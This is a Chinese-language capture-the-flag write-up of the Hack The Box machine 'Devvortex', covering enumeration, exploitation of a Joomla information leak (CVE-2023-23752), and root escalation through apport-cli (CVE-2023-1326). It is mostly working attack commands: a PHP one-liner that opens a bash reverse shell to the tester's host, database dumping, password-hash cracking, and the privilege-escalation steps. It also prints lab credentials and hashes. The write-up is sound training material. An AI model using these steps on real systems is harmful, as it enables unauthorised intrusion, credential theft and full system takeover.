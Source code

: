 Devvortex

使用nmap扫描服务器

```
nmap -sV -sC  10.10.11.242
```

![image-20231209202245367](/home/gary/文档/GitHub/note/图片/image-20231209202245367.png)

使用wfuzz进行子域名爆破

```
wfuzz -c -w  /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://devvortex.htb" -H "Host:FUZZ.devvortex.htb"
```

![image-20231209210924605](../图片/image-20231209210924605.png)

爆破出dev的子域名，将子域名加入hosts

使用gobuster对dev.devvortex.htb进行目录扫描

```
gobuster dir -u http://dev.devvortex.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 200
```

![image-20231210085448057](../图片/image-20231210085448057.png)

扫描出administrator的目录发现登录页面

![image-20231210085547645](../图片/image-20231210085547645.png)

扫描出README.txt，发现joomla版本为4.2

![image-20231210090134052](../图片/image-20231210090134052.png)

发现是joomla cms在网上发现有专门的漏洞扫描工具：joomscan

下载

```
apt install joomscan
```

使用joomscan进行扫描

```
joomscan -url http://dev.devvortex.htb
```

![image-20231210133543870](../图片/image-20231210133543870.png)

扫描出joomla的版本为4.2.6 并且扫描出部分目录

通过搜索joomla 4.2.6版本爆出有未授权访问-CVE-2023-23752漏洞

影响版本

```
4.0.0 <= Joomla <= 4.2.7
```

构造路由 `/api/index.php/v1/config/application?public=true`

返回数据库信息

![image-20231210142738086](../图片/image-20231210142738086.png)



用户名：lewis

密码：P4ntherg0t1n5r3c0n##

使用这个密码在登录页面成功登录后台

![image-20231210143126921](../图片/image-20231210143126921.png)



在页面中写入一句话木马反弹nc

```
system('bash -c "bash -i >& /dev/tcp/10.10.14.75/5566 0>&1"');
```

![image-20231210144551598](../图片/image-20231210144551598.png)

在攻击机监听5566端口

```
nc -lvc 5566
```

访问/templates/cassiopeia/offline.php文件nc反弹成功

![image-20231210152232965](../图片/image-20231210152232965.png)

使用python 生成伪终端实用程序

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

登录mysql

``` 
mysql -u lewis -p joomla --password=P4ntherg0t1n5r3c0n##
```

查询表单

```
show tables;
```

![image-20231210160913734](../图片/image-20231210160913734.png)

查询sd4fg_users表

```
select * form sd4fg_users
```

![image-20231210161403676](../图片/image-20231210161403676.png)



获取到hash值

```
lewis
$2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u 
logan
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 
```

使用john进行破解

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash 
```

![image-20231210163844177](../图片/image-20231210163844177.png)

爆破出密码：tequieromucho

使用密码ssh登录上去

```
ssh logan@10.10.11.242
```

查看flag 25900af2d9a5e5e8143ee8422e343c27

![image-20231210171626711](../图片/image-20231210171626711.png)

#### 提权

使用sudo -l 查看使用可以用root访问权限运行任何脚本

![file:///tmp/%E6%88%AA%E5%9B%BE_2023-12-10_16-48-18.png](../图片/截图_2023-12-10_16-48-18.png)

发现这个程序可以使用所有权限/usr/bin/apport-cli

搜索apport时发现新爆出漏洞CVE-2023-1326

POC

```
sudo /usr/bin/apport-cli -c /var/crash/_usr_bin_sleep.1000.crash
输入V
再输入!/bin/bash
```



![image-20231210171105864](../图片/image-20231210171105864.png)

已经提权到root，查看flag 25900af2d9a5e5e8143ee8422e343c27

![image-20231210171217416](../图片/image-20231210171217416.png)

妈的哪个傻逼flag改了 

后补
